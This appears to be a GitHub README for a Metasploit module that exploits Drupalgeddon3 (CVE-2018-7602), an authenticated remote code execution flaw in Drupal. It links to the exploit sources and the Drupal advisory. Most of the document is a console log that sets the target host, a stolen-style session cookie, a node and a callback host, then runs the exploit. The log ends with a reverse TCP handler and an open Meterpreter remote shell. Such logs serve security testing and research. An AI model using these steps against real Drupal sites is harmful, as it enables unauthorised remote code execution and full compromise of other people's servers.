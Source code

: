 # Drupal < 7.58 - 'Drupalgeddon3' Authenticated Remote Code Execution (Metasploit)
Author:
- [SixP4ck3r](https://twitter.com/sixp4ck3r) Research and port to MSF
- [Blaklis](https://www.exploit-db.com/exploits/44542/) Initial POC

Metasploit Module for Drupalgeddon 3:
- [https://www.exploit-db.com/exploits/44557/](https://www.exploit-db.com/exploits/44557/)

Original Exploit:
- [exploit-db.com](https://www.exploit-db.com/exploits/44542/)

Drupal Afected Versions & Details:
- [https://www.drupal.org/sa-core-2018-004](https://www.drupal.org/sa-core-2018-004)

Notes:
- CVE-2018-7602 / SA-CORE-2018-004
- A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x.
This potentially allows attackers to exploit multiple attack vectors on a Drupal site
Which could result in the site being compromised.
This vulnerability is related to Drupal core - Highly critical - Remote Code Execution

### Example Metasploit
<img src='https://i.imgur.com/9qRHfZ7.png'/>


### Output Metasploit
```bash
six@ub:/opt/metasploit-framework$ ./msfconsole 
[-] ***rting the Metasploit Framework console...|
[-] * WARNING: No database support: No database YAML file
[-] ***
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v5.0.0-dev-8164379                   ]
+ -- --=[ 1758 exploits - 1006 auxiliary - 306 post       ]
+ -- --=[ 536 payloads - 41 encoders - 10 nops            ]
+ -- --=[ ** This is Metasploit 5 development branch **   ]

msf5 > use unix/webapp/drupal_drupalgeddon3
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set RHOST 192.168.1.200
RHOST => 192.168.1.200
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set DRUPAL_SESSION SESSad4467153480b84038526cd43a9ce852=AYyCoZ07NvaDObWxYYEfAOJKETi2atRdEU0B6yEBiRI
DRUPAL_SESSION => SESSad4467153480b84038526cd43a9ce852=AYyCoZ07NvaDObWxYYEfAOJKETi2atRdEU0B6yEBiRI
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set DRUPAL_NODE 3
DRUPAL_NODE => 3
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set LHOST 192.168.1.200
LHOST => 192.168.1.200
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > exploit

[*] Started reverse TCP handler on 192.168.1.200:4444 
[*] Token Form -> u73s2UzA1B056tdlItiAfpeolb5OVwLGEF5EAFH0bJY
[*] Token Form_build_id -> form-FtN_yMsgJI9GlviMbemIkYxgJ97xsUZ7Lg2hOtW1IlI
[*] Sending stage (37775 bytes) to 192.168.1.200
[*] Meterpreter session 1 opened (192.168.1.200:4444 -> 192.168.1.200:60156) at 2018-04-29 15:04:33 -0400

meterpreter > 
```
